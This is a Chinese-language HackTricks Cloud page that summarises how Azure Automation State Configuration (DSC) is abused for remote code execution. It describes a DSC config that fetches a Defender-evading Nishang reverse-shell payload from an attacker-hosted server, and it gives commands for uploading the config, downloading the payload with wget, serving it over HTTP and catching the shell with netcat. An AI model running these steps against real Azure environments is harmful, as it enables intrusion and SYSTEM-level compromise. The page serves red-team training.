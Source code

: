 # Az - 状态配置RCE

{% hint style="success" %}
学习并练习AWS黑客：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP黑客：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}

**查看完整帖子：[https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### 远程服务器（C2）基础设施准备和步骤摘要

#### 概述
该过程涉及设置远程服务器基础设施，用于托管一个修改过的Nishang `Invoke-PowerShellTcp.ps1`有效载荷，命名为`RevPS.ps1`，旨在绕过Windows Defender。有效载荷从具有IP `40.84.7.74`的Kali Linux机器上提供，使用简单的Python HTTP服务器执行操作经过多个步骤执行：

#### 步骤1 — 创建文件
- **所需文件：** 需要两个PowerShell脚本：
1. `reverse_shell_config.ps1`：一个期望状态配置（DSC）文件，用于获取和执行有效载荷。可从[GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1)获取。
2. `push_reverse_shell_config.ps1`：一个用于将配置发布到虚拟机的脚本，可在[GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1)找到。
- **定制：** 这些文件中的变量和参数必须根据用户特定环境进行定制，包括资源名称、文件路径和服务器/有效载荷标识符。

#### 步骤2 — 压缩配置文件
- 将`reverse_shell_config.ps1`压缩为`.zip`文件，使其准备好传输到Azure存储账户。
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### 第3步 — 设置存储上下文 & 上传
- 使用 Azure 的 Set-AzStorageBlobContent 命令，将压缩的配置文件上传到预定义的 Azure 存储容器 azure-pentest。
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### 第4步 — 准备Kali Box
- Kali服务器从GitHub存储库下载RevPS.ps1有效载荷。
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- 脚本被编辑以指定目标 Windows VM 和反向 shell 的端口。

#### 步骤 5 — 发布配置文件
- 执行配置文件，导致反向 shell 脚本部署到 Windows VM 上指定的位置。

#### 步骤 6 — 托管 Payload 和设置监听器
- 启动 Python SimpleHTTPServer 来托管 payload，并启动 Netcat 监听器以捕获传入连接。
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- 计划任务执行有效载荷，实现了SYSTEM级别的特权。

#### 结论

此过程的成功执行为进一步行动打开了许多可能性，例如凭据转储或将攻击扩展到多个虚拟机。该指南鼓励在Azure Automation DSC领域继续学习和创造。

{% hint style="success" %}
学习并实践AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并实践GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
